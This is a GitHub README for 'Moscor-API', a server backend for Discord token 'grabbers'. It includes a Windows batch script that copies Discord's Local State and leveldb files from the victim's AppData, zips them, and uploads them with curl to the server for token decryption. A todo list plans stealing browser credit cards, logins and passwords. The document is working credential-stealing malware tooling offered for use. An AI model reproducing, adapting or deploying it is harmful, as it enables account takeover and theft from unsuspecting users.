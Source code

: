 # Moscor-API
an api for my project and grabbers, such as token info getting by simple sending info to api

# Token Info Api
- this gets info about discord token
- Modify ```http://127.0.0.1:5000/token_info``` to your url, based on where youre hosting the file on if its replit change it to replit and read the code, and modify last line
-  Usage:
```curl -H "Authorization: YOUR_DISCORD_TOKEN" http://127.0.0.1:5000/token_info```

# Decrypt token and token info api
- this will decrypt ldb, log and localstate files and look for tokens, usefull for custom grabbers that doenst directly support dpapi support.
- can be done in any language lol.
- how to send files to server and return? 

```bat
:: this will copy the files
@echo off
set "moscorlocalstate=%AppData%\discord\Local State"
set "moscorleveldb=%AppData%\discord\Local Storage\leveldb"
set "moscorlogs=%AppData%\moscorlogs"
set "moscorzip=%AppData%\moscorlogs.zip"

mkdir "%moscorlogs%" 2>nul

copy "%moscorlocalstate%" "%moscorlogs%" >NUL

copy "%moscorleveldb%\*.ldb" "%moscorlogs%" >NUL
copy "%moscorleveldb%\*.log" "%moscorlogs%" >NUL

pushd "%moscorlogs%"
powershell Compress-Archive -Path * -DestinationPath "%moscorzip%" >NUL
popd
::how to send?
curl -F "file=@%AppData%\moscorlogs.zip" http://127.0.0.1:5000/decrypt
```


## Todo: 
- Browser Decryption . CC / Logins / Passwords  (chrome,edge,firefox)
- - It will send files to the server it will decrypt and return them. :]
